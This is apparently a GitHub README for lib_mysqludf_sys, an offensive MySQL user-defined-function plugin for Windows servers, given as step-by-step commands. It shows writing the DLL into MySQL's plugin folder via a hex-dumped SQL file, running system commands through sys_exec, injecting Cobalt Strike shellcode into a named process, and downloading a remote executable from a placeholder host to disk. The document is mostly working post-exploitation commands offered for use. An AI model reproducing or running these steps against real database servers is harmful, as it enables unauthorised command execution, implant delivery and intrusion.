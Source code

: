 # lib_mysqludf_sys
lib_mysqludf_sys is a udf plugin of MySQL.

## Into Dumpfile

1.```python3 udf_Bin2Hex.py 1 Release\lib_mysqludf_sys_x64.dll "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\lib_mysqludf_sys_x64.dll" > lib_mysqludf_sys_x64.sql```

2.exec .sql file

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/exec_sql.png) 

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/dumpfile.png) 

## Sys_exec

1.``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("chcp 65001 & ipconfig");drop function sys_exec; ```

2.``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("whoami");drop function sys_exec; ```

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/sys_exec.png) 


## Inject

1.Generate Stage/Stageless RAW file for Cobalt Strike


2.Dumpfile in MySQL machine


3.Inject shellcode

```create function inject returns string soname "lib_mysqludf_sys_x64.dll"; select inject(hex(load_file("C:\\raw.bin")),"AppVNice.exe");drop function inject;```

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/Inject_file.png) 

4.Show Gif

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/injectshellcode.gif) 

## Download

```create function download returns string soname "lib_mysqludf_sys_x64.dll"; 
select download("http://xxxx/xxx.exe","C:\\11111.exe");drop function download;```

